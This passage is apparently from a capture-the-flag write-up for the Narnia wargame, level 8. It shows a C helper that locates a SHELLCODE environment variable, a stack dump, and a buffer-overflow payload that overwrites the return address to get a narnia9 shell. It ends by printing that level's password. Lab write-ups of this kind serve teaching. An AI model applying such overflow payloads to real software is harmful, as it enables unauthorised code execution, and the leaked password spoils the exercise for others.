 Awesome, now we need to do the same outside GDB. First, let’s find the **SHELLCODE** environment variable with the following code :

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

You can, compile it in **/tmp/** :

```
narnia8@narnia:/narnia$ cd /tmp
narnia8@narnia:/tmp$ gcc -m32 find_addr.c -o find_addr
narnia8@narnia:/tmp$ ./find_addr SHELLCODE
SHELLCODE is at 0xffffdea1
```

Then, we need to find the pointer of our payload :

```
narnia8@narnia:/narnia$ ./narnia8  $(python -c 'print 20 * "A"')  | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 6ad8 ffff 98d6 ffff a784 0408  AAAAj...........
00000020: 6ad8 ffff 0a                             j....
narnia8@narnia:/narnia$ python -c 'print "{:8x}".format(0xffffd86a-12)'
ffffd85e
./narnia8 $(python -c 'print 20 * "A" + "\x5e\xd8\xff\xff" + "AAAA" + "\xa1\xde\xff\xff"')
AAAAAAAAAAAAAAAAAAAA^���AAAA����^���
$ whoami
narnia9
$ cat /etc/narnia_pass/narnia9
eiL5fealae
```

Finally ! This one was kind of hard. It took me a while to figure it out :)
